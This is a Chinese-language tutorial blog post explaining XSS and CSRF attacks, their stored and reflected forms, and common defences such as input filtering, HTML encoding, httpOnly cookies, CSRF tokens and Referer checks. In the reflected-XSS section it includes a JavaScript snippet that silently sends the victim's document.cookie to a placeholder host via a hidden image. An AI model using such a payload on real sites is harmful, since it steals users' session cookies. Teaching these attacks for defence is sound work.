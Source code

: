 ```yaml
---
title: XSS和CSRF防御
date: 2016-12-13 14:02:51
tags: 
---
```

XSS和CSRF(XSRF)都属于跨站攻击，XSS是实现CSRF(XSRF)诸多途径中的一条，但不是唯一一条。

<!-- more -->

### 原理

XSS的本质是让对方浏览器执行你插入的js ，来获取`cookie`等信息；
CSRF(XSRF)是借用用户的身份，向服务器发送请求。

### XSS的类型

##### 储存型

储存型的XSS代码是储存在服务器端，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃 `cookie` 等。

##### 反射型

反射型XSS需要欺骗用户自己去点击链接才能触发XSS代码。发出请求时，XSS代码出现在URL中，作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS。

**Example:**

```js
var img = document.createElement('img');
img.src = 'http://www.xss.com?cookie=' + document.cookie;
img.style.display = 'none';
document.getElementByTagName('body')[0].appendChild(img);

// 这样就能在用户不知道的情况下将用户在该网站的 `cookie` 信息以 `get` 请求的方式发送给另一个地址。
```

### XSS的防范

客户端校验用户输入信息，只允许输入合法的值，其他一概过滤掉，防止客户端输入恶意的js代码被植入到HTML代码中，使得js代码得以执行。

**Example:**

* 移除用户上传的DOM属性，如 `onerror` 等。
* 移除用户上传的 `style`节点，`script`节点，`iframe`节点等。
* 对用户输入的代码标签进行转换(html encode)。
* 对url中的参数进行过滤。
* 对动态输出到页面的内容进行HTML编码。
* 服务端对敏感的 `Cookie` 设置 `httpOnly` 属性，使js脚本不能读取到 `cookie`。

**题外话：**
目前很多浏览器都会自身对用户的输入进行判断，检测是否存在攻击字符，比如你上述提到的 `script` 标签，这段脚本很明显就是一段XSS攻击，因此浏览器会对这段输入进行处理，不同的浏览器处理方式也不一样。

### CSRF(XSRF)的过程

**Example:**

* 用户小明在你的网站A上面登录了，A返回了一个 `session ID` (使用cookie存储)。
* 小明的浏览器保持着A网站的登录状态，攻击者小强给小明发送了一个链接地址。
* 小明打开了地址的时候，这个页面已经自动的对网站a发送了一个请求。
* 通过使用小明的cookie信息，这样攻击者小强就可以随意更改小明在A上的信息。

### CSRF(XSRF)的防范

* **使用token：** 服务器随机产生 `tooken`，然后以 `tooken为秘钥产生一段密文`，把 `token和密文` 都随 `cookie` 交给前端，前端发起请求时把 `密文和token` 交给后端看 `token` 能不能生成同样的密文，这样即使黑客拿到了 `token` 也无法拿到密文。

* **使用验证码：** 每一个重要的 `post` 提交页面，使用一个验证码，因为第三方网站是无法获得验证码的。

* **检测http的头信息refer：** `Referer` 记录了请求的来源地址，服务器可以验证这个来源地址是否合法。

* **更改请求方式：** 涉及敏感操作的请求改为 `POST` 请求。
